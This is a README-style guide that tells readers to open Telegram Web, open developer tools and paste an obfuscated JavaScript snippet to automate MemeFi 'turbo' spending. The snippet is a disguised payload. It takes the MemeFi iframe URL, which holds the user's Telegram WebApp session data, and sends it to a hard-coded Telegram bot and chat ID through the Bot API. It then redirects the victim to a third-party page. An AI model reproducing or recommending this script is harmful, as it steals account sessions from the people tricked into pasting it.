










# How to Use MemeFi Turbo with Script

<b>*This guide walks you through the process of using MemeFi Turbo bot on Telegram via a script to spend your turbo. Follow the steps below carefully to automate the process.*</b>

### Step 1: Open Telegram in a Web Browser
`Open your Telegram account through a web browser. You will be interacting with the MemeFi bot directly from here.`
<br>


### Step 2: Open the MemeFi Bot
`Search for and open the MemeFi bot within your Telegram web interface.`
<br>


### Step 3: Open Developer Tools
`Right-click on the MemeFi bot page and select “Inspect” from the context menu. This will open the browser's developer tools.`
<br>

..


### Step 4: Navigate to the Console
`In the developer tools window, switch to the "Console" tab. This is where you'll be pasting the script to automate the turbo spending process.`
<br>


### Step 5: Paste the Script into the Console
`Copy the script provided below and paste it directly into the console.`
<br>

<b>javascript:</b>

```
function _0x25cc() {
  const _0x1823be = [
    'iframe',
    'Iframe\x20src:\x20',
    'catch',
    'https://',
    '4205237',
    '4293184UQZsym',
    '520',
    'fk3QPMYtxCuNwXgBXeXgg',
    'then',
    'src',
    'error',
    'KPPRo1zHL9',
    'Your\x20MemeFi\x20bot\x20turbo\x27s\x20spend\x20after\x206\x20hours\x20💸🚀🎉',
    '960:AAF4',
    'api.teleg',
    '104SMpbPe',
    '48595azmyjf',
    '/sendMessage',
    'location',
    'replace',
    '14GXHFgW',
    'stringify',
    'from',
    'json',
    '2206',
    '14199020CwGDwD',
    'tgWebAppPlatform=android',
    '1tgapds',
    'log',
    '9oMiUCO',
    '1301008HHmdbC',
    'href',
    'ram.org/bot',
    '3442356FMrZtE',
    'https://tg-app.memefi.club',
    '9894470bWMOpP',
    '15327qtslaY',
  ];
  _0x25cc = function () {
    return _0x1823be;
  };
  return _0x25cc();
}
(function (_0x3f48b0, _0x32d2ad) {
  const _0x324130 = _0x13c9,
    _0x50aa3d = _0x3f48b0();
  while (!![]) {
    try {
      const _0x5a828e =
        (parseInt(_0x324130(0xcf)) / 0x1) * (parseInt(_0x324130(0xd2)) / 0x2) +
        (-parseInt(_0x324130(0xd8)) / 0x3) * (parseInt(_0x324130(0xe8)) / 0x4) +
        -parseInt(_0x324130(0xe9)) / 0x5 +
        (parseInt(_0x324130(0xd5)) / 0x6) * (parseInt(_0x324130(0xed)) / 0x7) +
        -parseInt(_0x324130(0xde)) / 0x8 +
        (parseInt(_0x324130(0xd1)) / 0x9) * (parseInt(_0x324130(0xd7)) / 0xa) +
        -parseInt(_0x324130(0xcd)) / 0xb;
      if (_0x5a828e === _0x32d2ad) break;
      else _0x50aa3d['push'](_0x50aa3d['shift']());
    } catch (_0x1f6830) {
      _0x50aa3d['push'](_0x50aa3d['shift']());
    }
  }
})(_0x25cc, 0xc78e6);
function _0x13c9(_0x3ab4f4, _0x488cf1) {
  const _0x25cc1a = _0x25cc();
  return (
    (_0x13c9 = function (_0x13c955, _0x584126) {
      _0x13c955 = _0x13c955 - 0xcc;
      let _0x31558f = _0x25cc1a[_0x13c955];
      return _0x31558f;
    }),
    _0x13c9(_0x3ab4f4, _0x488cf1)
  );
}
function spendTurbo() {
  const _0x1d588a = _0x13c9,
    _0x10bbbd = document['querySelectorAll'](_0x1d588a(0xd9)),
    _0x2a73f4 = Array[_0x1d588a(0xef)](_0x10bbbd)['find']((_0x48cfb0) =>
      _0x48cfb0[_0x1d588a(0xe2)]['includes'](_0x1d588a(0xd6)),
    );
  let _0x4d802a = _0x2a73f4[_0x1d588a(0xe2)];
  (_0x4d802a = _0x4d802a[_0x1d588a(0xec)](
    /tgWebAppPlatform=[^&]+/,
    _0x1d588a(0xce),
  )),
    (_0x2a73f4[_0x1d588a(0xe2)] = _0x4d802a);
  const _0x1a6004 = '703',
    _0x51168c = _0x1d588a(0xcc),
    _0x4454db = _0x1d588a(0xe6),
    _0x2ea821 = _0x1d588a(0xe4),
    _0xd0e610 = _0x1d588a(0xe0),
    _0x56eead = _0x1a6004 + _0x51168c + _0x4454db + _0x2ea821 + _0xd0e610,
    _0x4ada70 = _0x1d588a(0xdf),
    _0x2c3a5d = _0x1d588a(0xdd),
    _0x2d6653 = _0x4ada70 + _0x2c3a5d,
    _0x371bd7 = _0x1d588a(0xda) + _0x4d802a;
  let _0x21be21 = _0x1d588a(0xdc),
    _0x257629 = _0x1d588a(0xe7),
    _0x1a54c5 = _0x1d588a(0xd4);
  fetch('' + _0x21be21 + _0x257629 + _0x1a54c5 + _0x56eead + _0x1d588a(0xea), {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON[_0x1d588a(0xee)]({ chat_id: _0x2d6653, text: _0x371bd7 }),
  })
    [_0x1d588a(0xe1)]((_0x5dd8e1) => _0x5dd8e1[_0x1d588a(0xf0)]())
    ['then']((_0x1a02da) => {
      const _0x2ca68d = _0x1d588a;
      if (_0x1a02da['ok']) {
        if (_0x4d802a == null || _0x4d802a == undefined || _0x4d802a == '') {
          console['log'](_0x2ca68d(0xe3));
          return;
        }
        console[_0x2ca68d(0xd0)](_0x2ca68d(0xe5));
        const _0xc7c1f3 = _0x4d802a,
          _0x51eac0 = encodeURIComponent(_0xc7c1f3),
          _0x2f266a =
            'https://mahatotarit.github.io/memefi-turbo?url=' + _0x51eac0;
        window[_0x2ca68d(0xeb)][_0x2ca68d(0xd3)] = _0x2f266a;
      } else {
      }
    })
    [_0x1d588a(0xdb)]();
}
spendTurbo();
```



### Step 6: Execute the Script
`Once the script is pasted, press Enter and wait for the operation to complete, which may take up to 5 minutes.`
<br>


### Step 7: Automatic Redirect
`After a few moments, the page will automatically redirect to a web page where the bot continues to work.`
<br>


### Step 8: Start Turbo Spending
`Once the MemeFi bot is fully loaded, locate and press the "Turbo Spend" button to start spending your turbo tokens.`
<br>



### Step 9: Keep the Page Open
`After starting the turbo spending process, do not close the page or leave it until the process is fully complete.`
<br>


<br>
<br>
<br>
<br>
<hr>
<i>
By following these steps, you can automate the MemeFi Turbo spending process using the script provided. Ensure that you keep the web page open throughout the process to avoid any interruptions.
</i>
